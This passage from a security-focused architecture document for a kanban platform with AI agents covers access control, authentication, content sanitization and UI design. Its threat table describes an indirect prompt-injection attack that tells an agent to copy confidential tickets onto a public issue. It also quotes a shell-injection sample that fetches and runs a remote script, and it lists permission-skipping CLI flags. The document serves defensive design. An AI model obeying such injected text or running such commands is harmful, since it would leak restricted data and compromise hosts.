| **`reverse-proxy`** | `caddy:2.8-alpine` | `edge_net`, `app_net` | Terminates TLS 1.3 (`:80/:443`), enforces strict CSP/HSTS, serves `/srv/www` `.br`/`.gz` SPA assets, routes `/api/*` -> `kanban-api` and `/mcp/*` -> `mcp-server`. |
| **`kanban-api`** | `thumbs-up-kanban:runtime-slim` | `app_net`, `data_net` | Core domain state machines, Multi-Card AuthN, RBAC/ACL manifest resolver, Rust `nh3` + Markdown converter, REST, and WS/SSE hubs. |
| **`mcp-server`** | `thumbs-up-kanban:runtime-slim` | `app_net` **ONLY (zero `data_net` route!)** | Mounts `/mcp/agent`, `/mcp/docs`, `/mcp/admin`; holds **zero** Postgres write credentials; calls `kanban-api` over internal mTLS HTTP/2. |
| **`agent-runtime`** | `thumbs-up-kanban:runtime-slim` | `app_net`, `egress_llm_net` (+ `:ro` `git-mirrors`) | Multi-provider `LLMProvider` router, `<150ms` Sparkle FIM (`app_rls_reader` `READ ONLY` 18ms cap), and workflow interceptor coordinator. |
| **`script-sandbox`** | `thumbs-up-kanban:sandbox` (`nsjail`) | `sandbox_net` (`internal: true`, **zero internet!**) | Runs Tier B polyglot custom field scripts & local `cli_pipe` (`agy -p` / `codex -p`) behind `sandbox-egress-proxy` (ephemeral token injector). |
| **`outbox-relay`** | `thumbs-up-kanban:runtime-slim` | `data_net` **ONLY** | `LISTEN outbox_wakeup` + `FOR UPDATE SKIP LOCKED` -> Valkey 8 Streams & PubSub. |
| **`postgres`** | `pgvector/pgvector:pg16` | `data_net` (`internal: true`) | Authoritative Universal Object Graph, `FORCE RLS`, `ltree`, `pgvector` HNSW, and partitioned SHA-256 `activity_records`. |
| **`valkey`** | `valkey/valkey:8.0-alpine` | `data_net` (`internal: true`) | Multi-replica WebSocket fanout, consumer groups, and sliding-window rate buckets (`BSD-3` licensed). |
| **`kanban-agent-runner`** *(Optional Remote Host)* | `thumbs-up-kanban:agent-runner` | Outbound TLS 1.3 `WSS` to `reverse-proxy` | Runs on remote dev/CI/GPU hosts mounting local Git repos `:ro` to execute `ollama`, `gemini`, `agy -p`, or `codex -p` transition gates with zero inbound firewall ports. |

---

### 2.5 `Apache-2.0` Supply-Chain & License Audit Matrix

Every selected package is permissive-licensed (`Apache-2.0`, `MIT`, `BSD`, `PostgreSQL`, `MPL-2.0` file-level) and audited against supply-chain & memory-safety risks:

| Layer | Selected Package (`License`) | Banned / Rejected Alternatives & Rationale |
| :--- | :--- | :--- |
| **Web & Proxy** | `Caddy 2` (`Apache-2.0`), `FastAPI` (`MIT`), `Uvicorn` (`BSD-3`), `Pydantic v2` (`MIT`) | **Banned:** Copyleft `AGPL` server frameworks; `NGINX` replaced by memory-safe Caddy. |
| **Database & Broker** | `PostgreSQL 16` (`PostgreSQL`), `pgvector` (`PostgreSQL`), `SQLAlchemy 2.0` (`MIT`), `asyncpg` (`Apache-2.0`), `Valkey 8` (`BSD-3`) | **BANNED:** `Redis >= 7.4` (`SSPLv1` / `RSALv2` proprietary/copyleft trap) and `SQLModel` (DTO coupling). |
| **Crypto & Auth** | `pyca/cryptography` (`Apache-2.0`/`BSD`), `joserfc` (`BSD-3`), `argon2-cffi` (`MIT`), `py_webauthn` (`BSD-3`), `pyasn1` (`BSD-2`) | **BANNED:** `python-jose` (unmaintained, alg-confusion CVEs), pure-Python `ecdsa` (Minerva timing leaks), and `ldap3` (`LGPL-3.0`). |
| **Sanitization & Sandboxes** | `nh3` (`MIT`), `defusedxml` (`PSF-2.0`), `wasmtime` (`Apache-2.0`), `nsjail` (`Apache-2.0`), `gVisor` (`Apache-2.0`) | **BANNED:** `bleach` (deprecated), `eval()`/`exec()`/`RestrictedPython` (escapable AST sandboxes). |
| **Frontend, Editor & Media** | `React 19` (`MIT`), `Vite` (`MIT`), `TanStack Query/Virtual` (`MIT`), `ProseMirror` (`MIT`), `remark-gfm` (`MIT`), `DOMPurify` (`Apache-2.0`/`MPL-2.0`), `@atlaskit/pragmatic-drag-and-drop` (`Apache-2.0`), `beautiful-mermaid` (`MIT`) | **BANNED:** `Next.js` SSR in prod (unnecessary Node runtime attack surface), `@tiptap-pro/*` commercial extensions, and runtime CSS-in-JS (`styled-components`/`@emotion`, breaks `style-src 'self'` CSP). |

---

## 3. Zero-Trust Security Architecture & Explicit Sharing Visibility (`#1`)

### 3.1 Unified Principal Model (`Users`, `Groups`, `Agents`, `ServicePrincipals`)

Every actor in the platform resolves to a strongly typed row in `principals(id UUID PRIMARY KEY, principal_type TEXT, workspace_id UUID, status TEXT)` (`USER`, `GROUP`, `AGENT`, `SCRIPT_EPHEMERAL`, `SERVICE_PRINCIPAL`). Group memberships (`principal_group_edges`) are materialized into `principal_group_closure(member_id, ancestor_group_id, max_depth <= 8)` via a cycle-rejecting trigger so nested LDAP/OIDC groups resolve in $O(1)$ indexed joins.

---

### 3.2 Hybrid RBAC + Resource ACLs + Agent On-Behalf-Of (OBO) Intersection

Every object inherits baseline RBAC (`Server -> Workspace -> Project -> Object`) and can attach explicit `resource_acl_entries` (`ALLOW` or `DENY` bitmasks). Effective capabilities (`VIEW`, `COMMENT`, `EDIT`, `TRANSITION`, `LINK`, `SHARE`, `ADMIN`, `DELETE`) follow **Explicit Deny Precedence** and **Mandatory Agent Intersection**:

$$\text{EffectivePerms}(p, r) = \Big(\text{InheritedRBAC}(p, r) \cup \text{DirectAllowACL}(p, r)\Big) \setminus \text{EffectiveDenyACL}(p, r)$$

- **Delegated User Agent (`OBO`, e.g., MCP client or `INVOKING_USER` workflow/field script):**
  $$\text{EffectivePerms}(a_{\text{obo}(u)}, r) = \text{EffectivePerms}(u, r) \cap \text{AgentGrant}(a, r) \cap \text{TokenScope}(t)$$
  An agent or CLI tool (`agy -p`, `codex -p`) acting on behalf of a user can **never** read or mutate a resource that the invoking human cannot access.
- **Autonomous Service Agent (`AGENT` / `SERVICE_PRINCIPAL`):** Computed strictly from explicit project/object grants assigned to that agent principal and displayed distinctly under `🤖 Agents` in the Access Inspector.

---

### 3.3 PostgreSQL `FORCE ROW LEVEL SECURITY` & Materialized Access Closure

All application and MCP queries execute under `kanban_app` (`NOSUPERUSER NOCREATEDB NOCREATEROLE NOBYPASSRLS`) in **both** multi-container production and standalone `docker run` mode. Every tenant-bearing table enables `ENABLE ROW LEVEL SECURITY` and `FORCE ROW LEVEL SECURITY`. Every transaction binds signed context via `SET LOCAL`:

```sql
SELECT set_config('app.principal_id', $1, true),
       set_config('app.workspace_id', $2, true),
       set_config('app.token_scopes', $3, true),
       set_config('app.aal_level',    $4, true);

CREATE POLICY objects_select_rls ON objects FOR SELECT USING (
    workspace_id = current_setting('app.workspace_id', true)::uuid
    AND EXISTS (
        SELECT 1 FROM effective_resource_access era
        WHERE era.object_id = objects.id
          AND era.principal_id = ANY (app_effective_principal_set())
          AND (era.allow_mask & 1) = 1
          AND (era.deny_mask  & 1) = 0
    )
);
```

---

### 3.4 Anti-Enumeration `access_manifest` & Ubiquitous `🛡️` Sharing Pill (`#1`)

Every object serializer (`Project`, `Issue`, `Sticky`, `Doc`, `Page`, `View`) returns a structured `access_manifest` alongside a compact header **`🛡️` Emoji Access Pill** (`<EmojiHint>` hover elaboration + 1-click Effective Access Inspector popover) while enforcing strict **Zero Cross-Scope Principal Enumeration**:

1. **Same-Workspace Co-Viewers:** Callers with `VIEW` on object $R$ see all `Users`, `Groups` (with member count), `🤖 Agents` (with provider/harness badge & scope), and `Inherited Scope` (`Private`, `Project: KAN`, `Workspace: Eng`) that hold access to $R$ within the same workspace.
2. **External / Restricted Principals:** Principals outside the caller's visibility boundary are redacted to `{ "redacted": true, "label": "1 External Collaborator" }` (zero email, handle, or group DN leakage). Unreadable objects return an indistinguishable `404 Not Found` (`<= 5ms` jitter-equalized) rather than `403 Forbidden`.

```text
+-------------------------------------------------------------------------------+
|  🛡️ Project + 2  (Hover: "Shared with Project Engineering (14), SecOps, +2") |
+-------------------------------------------------------------------------------+
|  EFFECTIVE ACCESS FOR ISSUE KAN-142                        [Manage Access...] |
|  Inherited Scope: 📂 Project "Platform Core" (Workspace: Engineering)         |
|                                                                               |
|  👤 USERS (2 Direct)                                                          |
|   * Adam Outler (@adam) ......................... Admin     [Project Owner]   |
|   * Maya Lin (@maya) ............................ Edit      [Direct Share]    |
|                                                                               |
|  👥 GROUPS (2)                                                                |
|   * Core Backend (11 members, LDAPS synced) ..... Edit      [Project Role]    |
|   * SecOps Reviewers (4 members, OIDC) .......... Comment   [Direct Share]    |
|                                                                               |
|  🤖 AGENTS & WORKFLOW RUNNERS (2 Active)                    [ Kill Switch ]   |
|   * Local Sparkle (ollama/qwen2.5-coder) ........ Read      [Project Scoped]  |
|   * Transition Gate (cli: agy -p, :ro repo) ..... Gate      [In Review->Done] |
|                                                                               |
|  🔒 RESTRICTED OVERRIDES (1)                                                  |
|   * Contractors Group ........................... Explicit DENY               |
+-------------------------------------------------------------------------------+
```

---

### 3.5 STRIDE Threat Matrix & MCP Read-Taint Exfiltration Defense

| Threat Vector | Concrete Attack Scenario | Architectural Control |
| :--- | :--- | :--- |
| **Indirect Prompt Injection & Cross-Project Exfiltration** | Public bug description hides instructions telling an MCP agent or `agy -p` gate to read confidential `SEC-*` tickets and post them back onto the public issue. | **1. Hidden-Text Ingestion Pruner:** Strips hidden HTML/CSS (`display:none`, `opacity:0`, `font-size:0`), HTML comments, and zero-width Unicode (`U+200B..U+200F`, `U+E0000..U+E007F`).<br>**2. Session Read-Taint High-Water Mark:** Once an MCP session reads from a restricted project $P_A$, subsequent writes (`add_comment`, `transition_ticket`) to a broader-audience project $P_B$ ($\text{Audience}(P_B) \not\subseteq \text{Audience}(P_A)$) are blocked with `CROSS_SCOPE_TAINT_CONFIRMATION_REQUIRED`. |
| **Hostile Media (`SVG`, `Mermaid`, Paste-Jacking, SSRF)** | Attacker uploads `.svg` with `<script>`/`<foreignObject>`/`<use>` billion-laughs, injects `%%{init}%%` Mermaid directives, or embeds `163.254.169.254` tracking pixels. | Canonical Markdown-only DB; hidden-DOM paste pruner; `beautiful-mermaid` Worker -> `blob:` `` (`%%{init}%%` stripped); `roxmltree`+`DOMPurify` SVG -> `` + `CSP: sandbox` + `Content-Disposition: attachment`; cookieless DNS-pinned `/api/v1/media-proxy`. |
| **CLI Pipe Injection (`${context} \| agy -p`)** | Ticket summary contains `$(curl evil.sh\|sh)` or `--dangerously-skip-permissions` hoping shell expansion executes it. | **Zero-Shell `execve` + `FD 0 stdin` Pipe:** Never invokes `/bin/sh -c`. `${context}` is streamed strictly over `FD 0 (stdin)` into an explicit `argv` array inside a network-restricted, `:ro`-mounted `nsjail` sandbox with banned `--yolo`/`--dangerously-*` flag validation. |
| **Standalone `docker run` Misconfiguration** | Operator exposes standalone `:8080` container with default credentials or TCP Postgres port. | Zero baked-in keys (`keyring.json` `0600` generated at first boot); single-use `kb_setup_*` URL in `docker logs` (never `admin/admin`); PG `listen_addresses = ''` Unix socket only; `postgres` vs `kanban` UID separation. |

---

## 4. Multi-Card Pluggable Authentication Studio (`#6`)

### 4.1 `auth_provider_cards` Envelope-Encrypted Schema

Administrators configure **any number of simultaneous authentication cards** across `OIDC`, `OAUTH2`, `LDAP`, and `LOCAL_ADMIN`, with live enable/disable toggles and drag-and-drop `COLLATE "C"` ordering:

```sql
CREATE TABLE auth_provider_cards (
    id                      UUID PRIMARY KEY DEFAULT uuidv7(),
    workspace_id            UUID REFERENCES workspaces(id) ON DELETE CASCADE,
    provider_kind           TEXT NOT NULL CHECK (provider_kind IN ('OIDC', 'OAUTH2', 'LDAP', 'LOCAL_ADMIN')),
    slug                    TEXT NOT NULL UNIQUE CHECK (slug ~ '^[a-z0-9][a-z0-9-]{1,46}[a-z0-9]$'),
    display_name            TEXT NOT NULL,
    button_subtext          TEXT,
    icon_preset             TEXT NOT NULL DEFAULT 'key',
    is_enabled              BOOLEAN NOT NULL DEFAULT FALSE,
    sort_rank               TEXT COLLATE "C" NOT NULL,
    auto_provision_users    BOOLEAN NOT NULL DEFAULT FALSE,
    allowed_email_domains   TEXT[] NOT NULL DEFAULT '{}',
    public_config           JSONB NOT NULL DEFAULT '{}'::jsonb,
    encrypted_secret_blob   BYTEA,          -- AES-256-GCM ciphertext (client_secret, bind_dn_password)
    wrapped_dek             BYTEA,          -- Per-card DEK wrapped by KMS / MASTER_KEK
    dek_kid                 TEXT NOT NULL DEFAULT 'kek-v1',
    last_health_status      TEXT NOT NULL DEFAULT 'UNVERIFIED',
    created_at              TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp(),
    updated_at              TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp()
);
```

---

### 4.2 Protocol Hardening & Zero Implicit Email Auto-Linking

1. **OAuth 2.0 / OIDC Cards:** Mandatory PKCE (`S256`), single-use `128-bit` `state` + `nonce` (`TTL = 300s`), `iss`/`aud`/`azp` pinning, and `private_key_jwt` support.
2. **LDAPS / StartTLS Cards:** Strictly `ldaps://` (TLS 1.2+) or `ldap://` upgraded via `StartTLS` **prior to** any bind (`TLS_HARD`), optional custom CA PEM / SPKI SHA-256 pin, RFC 4515 AST filter escaping (`\2a`, `\28`, `\29`, `\5c`, `\00`), and **ephemeral user-bind password verification** (user LDAP passwords are never stored or logged).
3. **Local Admin & Break-Glass Card:** `Argon2id` (`m = 64 MiB`, `t = 3`, `p = 4`) + server-side HMAC-SHA256 pepper + mandatory **WebAuthn/Passkey** (`FIDO2`, `userVerification = "required"`, `rp.name = "👍kanban"` UTF-8 display brand paired with strict ASCII FQDN `rp.id`) or **TOTP** (`AAL2`) for Admin roles + offline one-time recovery codes. Every `/api/v1/admin/*` router MUST enforce `Depends(require_admin_aal2)` at the router dependency boundary (`assert_admin_routes_protected`).
4. **Zero Implicit Cross-Card Account Linking:** Matching `email` across two cards **never** silently merges accounts (blocking pre-hijack and rogue-IdP takeover). Identities map strictly via `(auth_card_id, immutable_subject_id)` (`OIDC sub` or `LDAP objectGUID`/`entryUUID`); linking an additional card requires re-authenticating the existing session (`AAL2`) + authenticating the new card.

---

### 4.3 Multi-Card Login Screen, Admin Auth Studio & `LOCKOUT_PREVENTED` Invariant

```text
+------------------------------ LOGIN SCREEN -------------------------------+
|                       🛡️  👍KANBAN WORKSPACE SIGN-IN                      |
|                                                                           |
|   +-------------------------------------------------------------------+   |
|   |  🔑  Continue with Okta Workforce OIDC                 [Primary]  |   |
|   +-------------------------------------------------------------------+   |
|   +-------------------------------------------------------------------+   |
|   |  🏢  Corp Active Directory (LDAPS - us-east-dc01)                 |   |
|   +-------------------------------------------------------------------+   |
|   +-------------------------------------------------------------------+   |
|   |  🐙  Continue with GitHub Enterprise                              |   |
|   +-------------------------------------------------------------------+   |
|                                                                           |
|   ...................... or Local Administrator ......................    |
|   ▸ Sign in with Local Admin + Passkey / TOTP                             |
+---------------------------------------------------------------------------+
```

**Three-Layer Anti-Lockout Safeguards (`LOCKOUT_PREVENTED`):**
1. **DB Constraint Trigger:** `BEFORE UPDATE OR DELETE ON auth_provider_cards` aborts (`ERRCODE 'P0001': LOCKOUT_PREVENTED`) if the mutation leaves **zero** enabled cards capable of authenticating at least one active `SERVER_ADMIN`.
2. **Live Handshake Probe Gate:** Disabling `LOCAL_ADMIN` requires a verified login handshake on at least one external `SERVER_ADMIN`-mapped IdP card within the preceding `15 minutes`.
3. **Host CLI Emergency Escape Hatch:** `kanban-ctl auth emergency-unlock --enable-local-admin` requires local root/container shell access and writes an indelible `EMERGENCY_BREAK_GLASS_INVOKED` event to `activity_records`.

---

## 5. Auto-Converted Canonical Markdown Pipeline & Safe Mermaid, Pictures & SVG (`#5`, `#10`)

### 5.1 The Canonical Markdown-Only Database Invariant

Per architectural directive, **100% of prose across `issues`, `comments`, `docs`, `pages`, and `stickies` is stored in PostgreSQL strictly as canonical UTF-8 GitHub-Flavored Markdown (`*_markdown TEXT NOT NULL`)**:

- **Zero Mode Switcher Clutter:** There is no `[Mode: Rich | MD | HTML]` dropdown on tickets, comments, or docs. Users type naturally in Rich WYSIWYG or raw Markdown syntax (`Cmd/Ctrl+Shift+M` toggles raw source inspection `📝`) and paste freely from browsers, Jira, Confluence, Google Docs, Word, Notion, terminals, or IDEs.
- **Zero HTML or JSONB AST Columns in PostgreSQL:** Every API/MCP ingress runs a deterministic server-side normalization & sanitization pass (`normalize_inspect` UTF-16 lone-surrogate pre-check `0xD800 <= ord(c) <= 0xDFFF` -> `INVALID_UTF8_SURROGATE` *before* `.encode("utf-8")`, followed by Rust `nh3` + hidden-DOM pruner + canonical GFM serializer) before `INSERT`/`UPDATE`, guaranteeing clean diffs, zero unhandled `UnicodeEncodeError` 500s, zero stored-XSS surface, and minimum MCP token overhead.

---

### 5.2 Auto-Detection, Hidden-DOM Paste-Jacking Pruner & Lossless Markdown Serializer

When content is pasted (`handlePaste` in `kanban/web/src/editor/clipboard/autoConvertPaste.ts`) or submitted via REST/MCP, a 5-branch classifier converts it cleanly while showing a subtle auto-dismissing `🧼` pill (`"Converted pasted HTML to clean Markdown - Cmd+Z to paste plain text"`):

1. **Image / `.svg` Binary Paste (`clipboardData.files`):** Uploads via `/api/v1/projects/{id}/attachments`, strips raster EXIF GPS/camera metadata (or scrubs `.svg` XML), and inserts ``.
2. **IDE Syntax-Highlighted Code Wrapper Bypass (`vscode-editor-data` or single `<pre>/<div>` inline-color spans with zero semantic tags):** Ignores noisy HTML styling spans and wraps `text/plain` directly in a language-tagged fenced code block.
3. **HTML / Rich Text Paste (`text/html` from browsers, Docs, Confluence, Word, Jira):**
   - **Step A - Hidden-DOM Paste-Jacking Pruner (Runs BEFORE stripping `style`):** Walks the inert `<template>` fragment and **deletes** any subtree carrying `hidden`, `aria-hidden="true"`, `display:none`, `visibility:hidden`, `opacity:0`, `font-size:0`, `clip:rect(0,0,0,0)`, off-screen negative positioning (`left: -9999px`), or near-zero foreground/background contrast (`< 1.15`), defeating invisible prompt-injection payloads hidden inside copied web pages!
   - **Step B - `DOMPurify` + Semantic `hast-util-to-mdast` -> `remark-gfm`:** Converts semantic headings, tables, checklists, links (`https://`, `mailto:`, `#`, `/`), images, and code blocks into canonical GFM Markdown (`-` bullets, `|` tables, ```` ``` ```` fences).
4. **Raw Markdown in `text/plain`:** Detected via structural Markdown density (`>= 2` block tokens or fenced code/Mermaid/GFM table) -> parsed directly into ProseMirror blocks so raw Markdown pasted from an LLM or terminal renders immediately rather than escaping `*` and `#`!
5. **Byte-Exact Round-Trip Guarantee (`sourceSlice`):** Every ProseMirror block node carries `attrs.sourceSlice { from, to }`. Opening a CLI/agent-authored ticket in the web UI and fixing a typo in paragraph 3 **only** re-serializes paragraph 3, preserving untouched Markdown tables, reference links, and code blocks byte-for-byte.

---

### 5.3 Safe Client-Side Mermaid Diagrams (`beautiful-mermaid` Web Worker -> `blob:` ``)

Fenced ```` ```mermaid ```` blocks (`flowchart`, `sequenceDiagram`, `stateDiagram-v2`, `classDiagram`, `erDiagram`, `xychart-beta`) render inline in tickets, comments, stickies, and docs without softening our strict `style-src 'self'` CSP:

1. **Directive & Resource Firewall:** Strips `%%{init: ...}%%` configuration directives, `click ... href "javascript:..."` callbacks, external `@import` fonts, and raw HTML tags before rendering; enforces `<= 64 KB` source, `<= 400` nodes, and `<= 1,000` edges.
2. **Isolated Web Worker + `1,500 ms` Watchdog:** Executes `beautiful-mermaid` (`MIT`, pure TypeScript, zero DOM/Puppeteer dependency, pure SVG text layout with **zero `<foreignObject>` HTML**) inside a dedicated Web Worker (`worker-src 'self'`). If layout exceeds `1,500 ms`, `worker.terminate()` kills the worker and falls back cleanly to syntax-highlighted Mermaid source.
3. **Live Light/Dark Theme Sync + `blob:` `` Isolation:** Passes resolved CSS semantic variables (`--bg-surface`, `--fg-primary`, `--border-strong`, `--accent-primary`) to the worker, runs the output SVG through `createSafeSvgBlobUrl()`, and mounts `` inside `<MediaViewport>`. Inside ``, browsers disable scripts, external fetches, and parent-DOM CSS bleed at the C++ engine level.

---

### 5.4 Pictures, Safe SVG Rendering & `<MediaViewport>` UX

| Media Type | Server-Side & Browser Hardening Pipeline | Interactive Web UI (`<MediaViewport>`) |
| :--- | :--- | :--- |
| **Uploaded Raster Pictures (`PNG`, `JPEG`, `WebP`, `AVIF`, `GIF`)** | Magic-byte sniff (rejecting extension spoofing); decompression-bomb guard (`MAX_IMAGE_PIXELS = 40,000,000`, `<= 25 MB`); re-encode/strip all EXIF/XMP/IPTC metadata (GPS coordinates, serial numbers); served via short-lived (`TTL = 300s`) RLS-checked URLs with `X-Content-Type-Options: nosniff`. | Responsive aspect-ratio skeleton (zero layout shift), click-to-open Lightbox (`10% - 800%` cursor-centered wheel/pinch zoom, drag pan), `Alt` badge, and Download button. |
| **External Markdown Images (`https://...`)** | Never fetched directly by user browsers (blocking IP/cookie tracking & LAN SSRF). Rewritten to cookieless `/api/v1/media-proxy?u=...&sig=<HMAC>`: blocks RFC1918 / loopback / link-local `169.254.0.0/16` / IPv6 ULA **after DNS resolution** with socket IP pinning (zero redirects, `<= 10 MB`). In `📴 air_gap_mode`, returns a 67-byte transparent PNG with `X-Kanban-Media-Status: air-gap-placeholder` for clean offline rendering. | Shows subtle `🌐` external-image badge (`Hover: "Proxied anonymously via 👍kanban Media Shield"`). |
| **Uploaded `.svg` Attachments & Fenced ```` ```svg ```` Blocks** | **Dual-Layer Scrub:** Server Rust `roxmltree` + client `DOMPurify` (`USE_PROFILES: { svg: true, svgFilters: false }`) allowlists pure vector geometry (`svg`, `g`, `path`, `rect`, `circle`, `line`, `polyline`, `polygon`, `text`, `tspan`, `defs`, `linearGradient`, `clipPath`, `marker`) and **strips** `<script>`, `<foreignObject>`, `<iframe>`, `<image>`, `<style>`, SMIL `<animate*>`, `on*` handlers, and external `href`s. `<use href="#id">` is validated as an acyclic local DAG (`depth <= 4`, expansion `<= 500` nodes).<br>**Direct-URL Navigation Shield:** `/attachments/*.svg` sets `Content-Security-Policy: default-src 'none'; sandbox` + `X-Content-Type-Options: nosniff` + `Content-Disposition: attachment` whenever `Sec-Fetch-Dest != "image"`, making direct-tab SVG XSS impossible. | Rendered strictly via `` inside `<MediaViewport>` (`max-height: 520px`) with pan/zoom, `🌓` Light/Dark checkerboard backdrop toggle (for dark-stroke SVGs in dark mode), Copy Raw Source, and Download `.svg`. |

#### Production `Content-Security-Policy` Header

```http
Content-Security-Policy:
  default-src 'none';
  script-src 'self';
  worker-src 'self';
  style-src 'self';
  img-src 'self' blob: data:image/png data:image/webp;
  font-src 'self';
  connect-src 'self' wss:;
  media-src 'self';
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';
  require-trusted-types-for 'script';
  trusted-types kanban-sanitizer dompurify;
```

---

## 6. Breathable Enterprise Whitespace, `<EmojiHint>` Hover System & Kanban Board (`#9`, `#15`)

### 6.1 Generous Breathable Whitespace Spatial Tokens (`#15`)

Rather than squeezing noisy metadata into cramped rows, the UI combines **generous Jira-surpassing breathable whitespace** with **crisp semantic emojis whose hover/focus tooltips carry rich technical elaboration** (`kanban/web/src/styles/tokens.css`):

```css
:root {
  /* Typography: Readable technical prose + aligned tabular issue keys */
  --font-sans: 'Inter Variable', -apple-system, BlinkMacSystemFont, sans-serif;
  --font-mono: 'JetBrains Mono Variable', ui-monospace, monospace;
  --text-body: 0.9375rem;         /* 15px comfortable prose base */
  --leading-prose: 1.73;          /* 26px generous breathable line-height */

  /* Shell & Board Whitespace (Calm, Open Canvas) */
  --sidebar-w: 256px;             /* Collapses cleanly to 0px via `[` */
  --topbar-h: 52px;               /* Uncluttered breadcrumb, view bar & 🛡️/⚠️ pills */
  --board-canvas-pad: 24px 28px;  /* Outer breathing room around board lanes */
  --board-col-w: 324px;           /* Spacious Kanban lane width */
  --board-col-gap: 20px;          /* Clear visual gutter between state columns */
  --card-pad: 16px 18px;          /* Airy internal card padding */
  --card-gap: 12px;               /* Vertical breathing room between cards */
  --list-row-h: 46px;             /* Calm spacious list row height */

  /* Ticket Drawer & Full-Screen Editorial Breathing Room */
  --drawer-w: min(960px, 68vw);   /* 640px spacious prose + 320px properties rail */
  --prose-pad: 32px 40px;         /* Generous editorial margins inside description */
  --prop-row-h: 38px;             /* Uncramped property rows */
  --section-gap: 32px;            /* Clear vertical separation between sections */
}
```

---

### 6.2 `<EmojiHint>` Semantic Emoji + Rich Hover/Focus Elaboration Architecture

Verbose inline status text (`"Shared with 14 users (Inherited from Project)"`, `"Awaiting Agent Gate"`, `"External Unverified Assignee"`) clutters cards and headers. Instead, `<EmojiHint>` renders a crisp `24px x 24px` interactive emoji pill (`tabIndex={0}`, `aria-describedby`) with zero-jank progressive disclosure:

- **Timing & Copyable Bridge:** `180ms` hover entry delay (prevents accidental flicker during mouse travel), **`0ms` instant neighbor warmup** for `400ms` while scanning across adjacent pills, **`0ms` instant open** on keyboard `Tab` focus, `120ms` interactive hover-bridge grace period (allowing users to highlight and copy SHA hashes, principal names, or CLI verdicts inside the tooltip), and instant `Escape` dismissal.
- **21-Emoji Standardized Platform Vocabulary:**

| Emoji | Domain Context | Rich Hover / Focus Elaboration Popover |
| :--- | :--- | :--- |
| `🛡️` | Access Transparency (`#1`) | Scope summary (`Project: Platform Core`) + counts of Users, Groups, `🤖` Agents, and `🔒` Deny rules; click opens full Access Inspector. |
| `🔒` | Restricted ACL Override | Lists explicit `DENY` overrides or private-only visibility boundary compared to the parent project. |
| `⚠️` | Standalone / WIP Warning | Header: Standalone `docker run` mode details & volume persistence status. Board lane: Soft/Hard WIP limit threshold details. |
| `📴` | Air-Gap Local-Only Mode | Confirms external LLM/media egress is disabled at socket level; displays active local `ollama` endpoint. |
| `🔥` / `⚡` / `🔹` / `💤` | Priority (`Urgent`/`High`/`Med`/`Low`) | Displays project-customizable priority name, SLA target window, and sort weight (`P` to change). |
| `🤖` | Autonomous / OBO Agent | Agent name, harness/model (`ollama/qwen2.5-coder`, `cli: agy -p`), OBO human delegator, and effective permission intersection. |
| `⏳🤖` | Transition Gate Pending | Live elapsed timer, active workflow hook name, harness (`codex -p` / `gemini`), and read-only repo mount status. |
| `🛑🤖` | Transition Gate Vetoed | Vetoing hook/agent name, timestamp, 2-line markdown reason preview, and 1-click jump to full Activity audit comment. |
| `✅🤖` | Transition Gate Approved | Approving hook/agent name, execution latency (`ms`), and cryptographic verdict hash. |
| `🏷️` | External Free-Text Assignee | Explains that this assignee is a non-member external label (`Zero workspace permissions granted; zero notifications sent`). |
| `🔄` | Creator Admin Override | Original creator -> Project Admin who modified `Created by`, timestamp, and link to immutable `CREATOR_OVERRIDDEN` ledger row. |
| `✨` | Sparkle Cursor Completion | Active FIM provider/model, RLS context scope (`Project KAN`), and shortcut hint (`Right-Click or Tab to accept`). |
| `🧼` | Auto-Sanitized / Converted | Summary of HTML/Rich-Text -> Markdown auto-conversion or stripped unsafe tags (`Cmd+Z` for plain text). |
| `📝` | Raw Markdown Source View | Indicates raw canonical Markdown source inspection is active (`Cmd/Ctrl+Shift+M` to toggle). |
| `💡📄` | Sticky -> Doc Promotion | Explains why the Sticky exceeded complexity heuristics (`740 chars, 2 headings`) + 1-click `Promote to Doc` action. |
| `🕸️⚠️` | Broken Object Graph Link | Identifies orphaned/ACL-severed link reason code (`PERMISSION_SEVERED`) + Admin `Inspect & Purge` shortcut. |
| `🧪` | Sandboxed Scripted Field | Execution tier (`Wasmtime` / `nsjail`), token scope (`PROJECT`), principal (`INVOKING_USER`), and last compute latency. |
| `🌓` | Media Contrast Backdrop | Toggles Light / Dark / Checkerboard canvas behind transparent `.svg` or Mermaid diagrams without flipping app theme. |

---

### 6.3 Breathable Application Shell & Kanban Board Wireframe (`#9j`)

```text
+----------------------------------------------------------------------------------------------------------+
| [K] kanban v   ⚡ kanban > Work Items (7)        [🔍 Search / Cmd+K... ]     ⚠️  🛡️  [List|Board|Gantt]  |
+----------------------+-----------------------------------------------------------------------------------+
|  [+ New work item]   |  Filter: [Active]        Group: [State v]   Sub-group: [None v]    Display [Tune] |
|                      |                                                                                   |
|  🏠 Home             |   ○ Backlog  3                      ◐ In Progress  2 (WIP 3)   ⏳🤖 In Review  1  |
|  📝 Drafts           |                                                                                   |
|  👤 Your work        |  +-------------------------------+  +-----------------------+  +----------------+ |
|  🟨 Stickies         |  | KANBA-3                   🛡️  |  | KANBA-4           🛡️  |  | KANBA-8    ⏳🤖| |
|                      |  |                               |  |                       |  |                | |
|  Projects            |  | Invite your team              |  | Harden OIDC & LDAPS   |  | Add RLS policy | |
|  ⚡ kanban           |  |                               |  | auth card studio      |  |                | |
|    📋 Work Items     |  | 🔥  🏷️ Vendor QA   📅 Nov 14  |  |                       |  | ⚡  🤖 agy -p  | |
|    🔄 Cycles         |  +-------------------------------+  | ⚡  @adam   🔄 Cycle 1|  +----------------+ |
|    🧩 Modules        |                                     +-----------------------+                     |
|    🎛️ Views          |  +-------------------------------+                                                |
|    📄 Docs (Pages)   |  | + New work item               |  +-----------------------+                     |
|                      |  +-------------------------------+  | + New work item       |                     |
+----------------------+-------------------------------------+-----------------------+---------------------+
```

### 6.4 Drag-and-Drop Fractional Indexing, 5 Views, 2D Swimlanes & Keyboard Map

1. **Zero-Reindex Fractional Ranking (`COLLATE "C"`):** Cards sort by `board_rank TEXT COLLATE "C"` using Base-62 lexicographic midpoints (`a0`, `a0V`). Dragging a card (`@atlaskit/pragmatic-drag-and-drop` + `@tanstack/react-virtual`) mutates **1 row** (`< 12ms` optimistic frame); background rebalancing triggers only if key length exceeds `32` chars.
2. **Five Native Views (`Views` Object):** `List` (grouped sections), `Board` (columns x optional 2D horizontal swimlanes across `Assignee`, `Priority`, `Cycle`, `Module`, `Label`), `Table`, `Calendar`, and `Timeline / Gantt` (`start_date -> due_date` bars + `BLOCKS` arrows).
